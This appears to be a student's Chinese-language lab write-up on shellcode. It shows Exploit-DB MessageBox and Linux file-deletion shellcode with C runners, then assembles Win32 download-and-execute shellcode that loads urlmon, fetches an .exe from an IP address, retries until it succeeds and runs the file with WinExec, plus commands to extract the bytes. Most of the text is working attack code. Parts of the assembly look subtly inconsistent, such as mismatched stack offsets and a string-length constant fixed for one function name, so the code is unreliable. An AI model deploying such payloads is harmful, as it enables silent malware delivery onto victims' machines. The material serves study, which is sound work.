








# ShellCode

1. 详细阅读 [www.exploit-db.com](https://www.exploit-db.com/shellcodes) 中的shellcode。建议找不同功能的，不同平台的 3-4个shellcode解读。
2. 修改示例代码的shellcode，将其功能改为下载执行。也就是从网络中下载一个程序，然后运行下载的这个程序。提示：Windows系统中最简单的下载一个文件的API是 UrlDownlaodToFileA
   - 其中第二个作业，原参考代码只调用了一个API函数，作业要求调用更多的API函数了，其中涉及到的参数也更复杂，但是原理是相通的。URLDownloadToFileA函数在 Urlmon.dll 这个dll中，这个dll不是默认加载的，所以可能还需要调用LoadLibrary函数
   - [Windows/x64 - Download File (http://192.168.10.129/pl.exe) + Execute (C:/Users/Public/p.exe) Shellcode (358 bytes)](https://www.exploit-db.com/shellcodes/40821)
   - [Windows/x64 (XP) - Download File + Execute Shellcode Using Powershell (Generator)](https://www.exploit-db.com/shellcodes/36411) 

## Windows

### [弹出MessagBox的参考示例代码](https://www.exploit-db.com/shellcodes/13828)

```c
/*
Title: Allwin MessageBoxA Shellcode
Date: 2010-06-11
Author: RubberDuck
Web: http://bflow.security-portal.cz
Tested on: Win 2k, Win 2003, Win XP Home SP2/SP3 CZ/ENG (32), Win Vista (32)/(64), Win 7 (32)/(64), Win 2k8 (32)
Thanks to: kernelhunter, Lodus, Vrtule, Mato, cm3l1k1, eat, st1gd3r and others
*/

#include <windows.h>
#include <stdio.h>

char code[] = \
"\x89\xe5\x83\xec\x20\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b\x5b"
"\x1c\x8b\x1b\x8b\x1b\x8b\x43\x08\x89\x45\xfc\x8b\x58\x3c\x01\xc3"
"\x8b\x5b\x78\x01\xc3\x8b\x7b\x20\x01\xc7\x89\x7d\xf8\x8b\x4b\x24"
"\x01\xc1\x89\x4d\xf4\x8b\x53\x1c\x01\xc2\x89\x55\xf0\x8b\x53\x14"
"\x89\x55\xec\xeb\x32\x31\xc0\x8b\x55\xec\x8b\x7d\xf8\x8b\x75\x18"
"\x31\xc9\xfc\x8b\x3c\x87\x03\x7d\xfc\x66\x83\xc1\x08\xf3\xa6\x74"
"\x05\x40\x39\xd0\x72\xe4\x8b\x4d\xf4\x8b\x55\xf0\x66\x8b\x04\x41"
"\x8b\x04\x82\x03\x45\xfc\xc3\xba\x78\x78\x65\x63\xc1\xea\x08\x52"
"\x68\x57\x69\x6e\x45\x89\x65\x18\xe8\xb8\xff\xff\xff\x31\xc9\x51"
"\x68\x2e\x65\x78\x65\x68\x63\x61\x6c\x63\x89\xe3\x41\x51\x53\xff"
"\xd0\x31\xc9\xb9\x01\x65\x73\x73\xc1\xe9\x08\x51\x68\x50\x72\x6f"
"\x63\x68\x45\x78\x69\x74\x89\x65\x18\xe8\x87\xff\xff\xff\x31\xd2"
"\x52\xff\xd0";

int main(int argc, char** argv)
{
    int (*func)();
    DWORD dwOldProtect;
    VirtualProtect(code, sizeof(code), PAGE_EXECUTE_READWRITE, &dwOldProtect);
    func = (int(*)()) code;
    (int)(*func)();
}
```

- 通过简单调试过程，发现该汇编代码是通过获得LoadLibrary函数的地址后，通过LoadLibrary来加载user32.dll，最后再加载MessageBoxA函数

  

- 简单修改：`\x4F\x5F\x6F\x21`该段代码是将参数入栈：x4F\x5F\x6F\x21 > 79 95 111 33 > O_o!
  - 修改参数 zizi : 122 105 122 105 > 7a 69 7a 69 > \x7a\x69\x7a\x69
  
    

### 拿win10的代码到win7虚拟机下跑

- 生成可执行的exe
- 把vs工程的属性设为
  
  

  

- 生成项目，在`Debug`目录下找到三个相关的文件(为了防止出错)，全都拷贝到虚拟机中
- 运行exe，会出现丢失几个dll的情况，如
  ```
  api-ms-win-core-synch-l1-2-0.dll
  api-ms-win-core-file-l2-1-0.dll
  api-ms-win-core-timezone-l1-1-0.dll
  api-ms-win-core-file-l1-2-0.dll
  api-ms-win-core-processthreads-l1-1-1.dll
  ```

  这里用了一个非常不优雅的方法，就是一个个去下，然后放在`C:\Windows\System32`目录下

  运行exe

  

### [弹出命令行](https://www.exploit-db.com/shellcodes/42016)



## Linux

### [Linux/x86_64 - Delete File (test.txt) Shellcode (28 bytes)](https://www.exploit-db.com/shellcodes/46870)

- 编写.c文件，写入
    ```c
    #include <stdio.h>
    #include <string.h>

    char sh[]="\xeb\x0d\x6a\x57\x58\x5f\x0f\x05\x48"
            "\x31\xc0\xb0\x3c\x0f\x05\xe8\xee\xff"
            "\xff\xff\x74\x65\x73\x74\x2e\x74\x78\x74";


    void main(int argc, char **argv)
    {
            printf("Shellcode Length: %d\n", strlen (sh));
            int (*func)();
            func = (int (*)()) sh;
            (int)(*func)();
    }
    ```
- 在命令行下输入`gcc -fno-stack-protector -z execstack delete.c`。在同目录下新建test.txt，运行刚生成的可执行文件发现test.txt已被删除
  
  

- 汇编代码
    ```asm
    global _start
    section .text

    _start:
        jmp short _file

    delete:
        push 87             ;sys_unlink
        pop rax
        pop rdi             ;fname
        syscall

    exit:
        xor rax,  rax
        mov al,   60         ;sys_exit
        syscall

    _file:
        call delete
        fname: db "test.txt"
    ```

> Segmentation fault(Core Dump)
> - When a piece of code tries to do read and write operation in a read only location in memory or freed block of memory, it is known as core dump.
> - It is an error indicating memory corruption.

## Win10 / 64位 - 下载执行shellcode

### C语言编写的代码

- 此处使用的URLDownloadToFile函数名为`URLDownloadToFileA`(区别于`URLDownloadToFileW`)
- WinExec执行
    ```
    若函数调用成功，则返回值大于31。若函数调用失败，则返回值为下列之一： 
    0：系统内存或资源已耗尽。
    ERROR_BAD_FORMAT：EXE文件无效（非Win32.EXE或.EXE影像错误）。 
    ERROR_FILE_NOT_FOUND：指定的文件未找到。
    ERROR_PATH_NOT_FOUND：指定的路径未找到。 
    ```

    ```c
    # 一直报错 返回值为0
    # 关掉无关程序，只留下该函数，还是报错0

    #include <stdio.h>
    #include <Urlmon.h>
    #pragma comment(lib,"Urlmon.lib")

    int main()
    {
        if (URLDownloadToFileA(NULL, "https://dldir1.qq.com/weixin/Windows/WeChatSetup.exe", "e:\\test.exe", 0, 0) == S_OK)
        {
            printf("URLDownloadToFile OK\n");
            int ret = WinExec("e:\\test.exe", 0);
            printf("ret = %d\n",ret);
        }
        else
        {
            printf("URLDownloadToFile Fail,Error:%d\n", GetLastError());
        }
    }
    ```

    因为该应用程序需要**管理员权限**，所以直接使用WinExec运行无法成功

- 换成system函数重新执行成功
    ```c
    #include <stdio.h>
    #include <Urlmon.h>
    #include <stdlib.h>
    #pragma comment(lib,"Urlmon.lib")

    int main()
    {
        if (URLDownloadToFileA(NULL, "https://dldir1.qq.com/weixin/Windows/WeChatSetup.exe", "e:\\test.exe", 0, 0) == S_OK)
        {
            printf("URLDownloadToFile OK\n");
            system("e:\\test.exe");
        }
        else
        {
            printf("URLDownloadToFile Fail,Error:%d\n", GetLastError());
        }
    }
    ```

### 转化成shellcode的过程

#### 编写汇编代码

[asm代码见](./code/win32-download-execute.asm)

##### 创建栈帧

```asm
_start:
; Create a new stack frame
 mov ebp, esp            ; Set base stack pointer for new stack-frame
 sub esp, 0x20           ; Decrement the stack by 2 x 16 = 32 bytes
```

##### 寻找kernel32.dll的基址 

> 注：URLDownloadToFileA函数在 Urlmon.dll 这个dll中，这个dll不是默认加载的，所以还需要调用LoadLibrary函数(位于Kernel32.dll)
> 查找LoadLibrary的代码参见：https://www.exploit-db.com/exploits/48355

```asm
; Find kernel32.dll base address
 xor ebx, ebx            ; EBX = 0x00000000
 mov ebx, [fs:ebx+0x30]  ; EBX = Address_of_PEB
 mov ebx, [ebx+0xC]      ; EBX = Address_of_LDR
 mov ebx, [ebx+0x1C]     ; EBX = 1st entry in InitOrderModuleList / ntdll.dll
 mov ebx, [ebx]          ; EBX = 2nd entry in InitOrderModuleList / kernelbase.dll
 mov ebx, [ebx]          ; EBX = 3rd entry in InitOrderModuleList / kernel32.dll
 mov eax, [ebx+0x8]      ; EAX = &kernel32.dll / Address of kernel32.dll
 mov [ebp-0x4], eax      ; [EBP-0x04] = &kernel32.dll
```

##### 寻找kernel32.dll导出表的地址

```asm
; Find the address of the Export Table within kernel32.dll
 mov ebx, [eax+0x3C]     ; EBX = Offset NewEXEHeader  = 0xF8
 add ebx, eax            ; EBX = &NewEXEHeader        = 0xF8 + &kernel32.dll
 mov ebx, [ebx+0x78]     ; EBX = RVA ExportTable      = 0x777B0 = [&NewExeHeader + 0x78]
 add ebx, eax            ; EBX = &ExportTable         = RVA ExportTable + &kernel32.dll
```

##### 寻找kernel32.dll的name pointer table

```asm
; Find the address of the Name Pointer Table within kernel32.dll
; + Contains pointers to strings of function names - 4-byte/dword entries
 mov edi, [ebx+0x20]     ; EDI = RVA NamePointerTable = 0x790E0
 add edi, eax            ; EDI = &NamePointerTable    = 0x790E0 + &kernel32.dll
 mov [ebp-0x8], edi      ; save &NamePointerTable to stack frame
```

##### 寻找kernel32.dll的Ordinal Table 序数表

```asm
; Find the address of the Ordinal Table
;   - 2-byte/word entries
 mov ecx, [ebx+0x24]     ; ECX = RVA OrdinalTable     = 0x7A9E8
 add ecx, eax            ; ECX = &OrdinalTable        = 0x7A9E8 + &kernel32.dll
 mov [ebp-0xC], ecx      ; save &OrdinalTable to stack-frame
```

##### 找到Address Table的地址

```asm
; Find the address of the Address Table
 mov edx, [ebx+0x1C]     ; EDX = RVA AddressTable     = 0x777CC
 add edx, eax            ; EDX = &AddressTable        = 0x777CC + &kernel32.dll
 mov [ebp-0x10], edx     ; save &AddressTable to stack-frame
```

##### 找kernel32.dll导出表中functions的数量

```asm
; Find Number of Functions within the Export Table of kernel32.dll
 mov edx, [ebx+0x14]     ; EDX = Number of Functions  = 0x642
 mov [ebp-0x14], edx     ; save value of Number of Functions to stack-frame
```

##### 寻找LoadLibrary的入口点

> 为什么不能像计算器shellcode一样直接获取loadlibrary的地址？
> 首先通过寻找GetProcAddress的位置，通过调用这个函数获取LoadLibrary的地址

> jmp short 标号（转到标号处执行命令）

```asm
jmp short functions

findFunctionAddr:
; Initialize the Counter to prevent infinite loop
 xor eax, eax            ; EAX = Counter = 0
 mov edx, [ebp-0x14]     ; get value of Number of Functions from stack-frame
; Loop through the NamePointerTable and compare our Strings to the Name Strings of kernel32.dll
searchLoop:
 mov edi, [ebp-0x8]      ; EDI = &NamePointerTable
 mov esi, [ebp+0x18]     ; ESI = Address of String for the Symbol we are searching for
 xor ecx, ecx            ; ECX = 0x00000000
 cld                     ; clear direction flag - Process strings from left to right
 mov edi, [edi+eax*4]    ; EDI = RVA NameString      = [&NamePointerTable + (Counter * 4)]
 add edi, [ebp-0x4]      ; EDI = &NameString         = RVA NameString + &kernel32.dll
 add cx, 0xF             ; ECX = len("GetProcAddress,0x00") = 15 = 14 char + 1 Null
 repe cmpsb              ; compare first 8 bytes of [&NameString] to "GetProcAddress,0x00"
 jz found                ; If string at [&NameString] == "GetProcAddress,0x00", then end loop
 inc eax                 ; else Counter ++
 cmp eax, edx            ; Does EAX == Number of Functions?
 jb searchLoop           ;   If EAX != Number of Functions, then restart the loop

found:
; Find the address of GetProcAddress by using the last value of the Counter
 mov ecx, [ebp-0xC]      ; ECX = &OrdinalTable
 mov edx, [ebp-0x10]     ; EDX = &AddressTable
 mov ax,  [ecx + eax*2]  ;  AX = ordinalNumber      = [&OrdinalTable + (Counter*2)]
 mov eax, [edx + eax*4]  ; EAX = RVA GetProcAddress = [&AddressTable + ordinalNumber]
 add eax, [ebp-0x4]      ; EAX = &GetProcAddress    = RVA GetProcAddress + &kernel32.dll
 ret

functions:
# Push string "GetProcAddress",0x00 onto the stack
 xor eax, eax            ; clear eax register
 mov ax, 0x7373          ; AX is the lower 16-bits of the 32bit EAX Register
 push eax                ;   ss : 73730000 // EAX = 0x00007373 // \x73=ASCII "s"
 push 0x65726464         ; erdd : 65726464 // "GetProcAddress"
 push 0x41636f72         ; Acor : 41636f72
 push 0x50746547         ; PteG : 50746547
 mov [ebp-0x18], esp      ; save PTR to string at bottom of stack (ebp)
 call findFunctionAddr   ; After Return EAX will = &GetProcAddress
# EAX = &GetProcAddress
 mov [ebp-0x1C], eax      ; save &GetProcAddress

; Call GetProcAddress(&kernel32.dll, PTR "LoadLibraryA"0x00)
 xor edx, edx            ; EDX = 0x00000000
 push edx                ; null terminator for LoadLibraryA string
 push 0x41797261         ; Ayra : 41797261 // "LoadLibraryA",0x00
 push 0x7262694c         ; rbiL : 7262694c
 push 0x64616f4c         ; daoL : 64616f4c
 push esp                ; $hModule    -- push the address of the start of the string onto the stack
 push dword [ebp-0x4]    ; $lpProcName -- push base address of kernel32.dll to the stack
 mov eax, [ebp-0x1C]     ; Move the address of GetProcAddress into the EAX register
 call eax                ; Call the GetProcAddress Function.
 mov [ebp-0x20], eax     ; save Address of LoadLibraryA
```

##### 通过LoadLibrary找到Urlmon.dll

```asm
; Call LoadLibraryA(PTR "urlmon") msvcrt
;   push "urlmon",0x00 to the stack and save pointer
 xor eax, eax            ; clear eax
 mov ax, 0x6E6F          ; no : 6E6F
 push eax
 push 0x6D6C7275         ; mlru : 6D6C7275
 push esp                ; push the pointer to the string
 mov ebx, [ebp-0x20]     ; LoadLibraryA Address to ebx register
 call ebx                ; call the LoadLibraryA Function to load urlmon.dll
 mov [ebp-0x24], eax     ; save Address of urlmon.dll
```

##### 通过urlmon.dll获得URLDownloadToFileA的入口地址

```asm
; Call GetProcAddress(urlmon.dll, "URLDownloadToFileA") 
 xor edx, edx
 mov dx, 0x4165          ; Ae : 4165
 push edx
 push 0x6C69466F         ; liFo : 6c69466f 
 push 0x5464616F         ; Tdao : 5464616f
 push 0x6C6E776F         ; lnwo : 6c6e776f
 push 0x444C5255         ; DLRU : 444c5255
 push esp                ; push pointer to string to stack for 'URLDownloadToFileA'
 push dword [ebp-0x24]   ; push base address of urlmon.dll to stack
 mov eax, [ebp-0x1C]     ; PTR to GetProcAddress to EAX
 call eax                ; GetProcAddress
;   EAX = WSAStartup Address
 mov [ebp-0x28], eax     ; save Address of urlmon.URLDownloadToFileA
```

##### 使用URLDownloadToFileA下载文件

URLDownloadToFileA汇编代码的依据：https://www.exploit-db.com/shellcodes/40094

> 需要开启本机器的web服务，在根目录下提供exe下载

```asm
;URLDownloadToFileA(NULL, URL, save as, 0, NULL)
download:
pop eax
xor ecx, ecx
push ecx
; URL: http://192.168.0.105/res.exe
push 0x6578652E         ; exe.
push 0x7365722F         ; ser/
push 0x3530312E         ; 501.
push 0x302E3836         ; 0.86
push 0x312E3239         ; 1.29
push 0x312F2F3A         ; 1//:
push 0x70747468         ; ptth
push esp
pop ecx                 ; save the URL string
xor ebx, ebx
push ebx
; save as test.exe
push 0x6578652E         ; exe.
push 0x74736574         ; tset
push esp
pop ebx                 ; save the downloaded filename string
xor edx, edx
push edx
push edx
push ebx
push ecx
push edx
mov eax, [ebp-0x28]     ; PTR to URLDownloadToFileA to EAX
call eax
pop ecx
add esp, 44
xor edx, edx
cmp eax, edx
push ecx
jnz download            ; if it fails to download , retry contineusly
pop edx
```

##### 查找system函数，并调用该函数运行

```asm
; Create string 'WinExec\x00' on the stack and save its address to the stack-frame
mov edx, 0x63657878     ; "cexx"
shr edx, 8              ; Shifts edx register to the right 8 bits
push edx                ; "\x00,cex"
push 0x456E6957         ; EniW : 456E6957
mov [ebp+0x18], esp     ; save address of string 'WinExec\x00' to the stack-frame
call findFunctionAddr   ; After Return EAX will = &WinExec

; Call WinExec( CmdLine, ShowState );
;   CmdLine   = "tset.exe"
;   ShowState = 0x00000000 = SW_HIDE - Hides the window and activates another window.
xor ecx, ecx          ; clear eax register
push ecx              ; string terminator 0x00 for "test.exe" string
push 0x6578652e       ; exe. : 6578652e
push 0x74736574       ; tset : 74736574
mov ebx, esp          ; save pointer to "test.exe" string in eax
inc ecx               ; uCmdShow SW_SHOWNORMAL = 0x00000001
push ecx              ; uCmdShow  - push 0x1 to stack # 2nd argument
push ebx              ; lpcmdLine - push string address stack # 1st argument
call eax              ; Call the WinExec Function
```

##### 调用ExitProcess退出

```asm
; Create string 'ExitProcess\x00' on the stack and save its address to the stack-frame
 xor ecx, ecx          ; clear eax register
 mov ecx, 0x73736501     ; 73736501 = "sse",0x01 // "ExitProcess",0x0000 string
 shr ecx, 8              ; ecx = "ess",0x00 // shr shifts the register right 8 bits
 push ecx                ;  sse : 00737365
 push 0x636F7250         ; corP : 636F7250
 push 0x74697845         ; tixE : 74697845
 mov [ebp+0x18], esp     ; save address of string 'ExitProcess\x00' to stack-frame
 call findFunctionAddr   ; After Return EAX will = &ExitProcess

; Call ExitProcess(ExitCode)
 xor edx, edx
 push edx                ; ExitCode = 0
 call eax                ; ExitProcess(ExitCode)
```

##### 将汇编指令转化成shellcode

```bash
nasm -f win32 win32-download-execute.asm -o win32-download-execute.o
for i in $(objdump -D win32-download-execute.o | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo
```

编写C语言代码，测试结果



## Improvement

- [ ] 采用system执行时，汇编代码的编写

## Conclusion

- x86指的是32位计算机的架构，也指32位的操作系统，比如i386，i686，i486等；x86_64和x64指的都是64位架构，也指64位操作系统

## References

